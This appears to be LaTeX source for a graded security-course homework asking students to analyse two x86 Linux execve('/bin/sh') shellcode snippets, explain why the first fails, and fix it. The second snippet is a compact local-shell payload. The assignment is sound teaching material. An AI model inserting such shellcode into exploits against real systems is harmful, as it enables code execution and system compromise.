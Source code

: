 \documentclass{article}[9pt]
\begin{document}
\begin{enumerate}
\item Consider the following shell code as an improvement over
previously described jmp-callback shell code

\begin{verbatim}
SECTION .text
   global _start

_start:

   xor eax,eax

   push eax ;\0
   push 0x68 ;h
   push 0x73 ;s
   push 0x2f ;/
   push 0x6e ;n
   push 0x69 ;i
   push 0x62 ;b
   push 0x2f ;/

   mov esi,esp

   xor edx,edx
   push edx
   push esi

   mov ecx,esp
   mov ebx,esi
   mov al,0xb
   int 0x80

\end{verbatim}

\begin{enumerate}
\item (5 points) This shell code fails to decrease the total number of
bytes. Explain why? (You can compile and test against a
jmp-callback variant)

\item (5 points) This shell code \emph{also} fails to launch a shell. Explain why?

\item (5 points) Explain how to fix this shell code's push'es such that it will
actually launch a shell.

\item (5 points) When fixed, how many bytes is the shell code reduced by as
compared to the jmp-callback shell code?
\end{enumerate}

\item Consider the following shell code

\begin{verbatim}
SECTION .text
        global _start
_start:
        xor ecx,ecx
        mul ecx ;MARK 1

        push eax
        push 0x68732f6e
        push 0x69622f2f

        mov ebx,esp ;MARK 2
        mov al,0xb
        int 0x80 

\end{verbatim}

\begin{enumerate}
\item (5 points) At MARK 1, explain why \texttt{mul ecx} will zero out the register \texttt{eax} and \texttt{edx}.


\end{enumerate}
\end{enumerate}
\end{document}
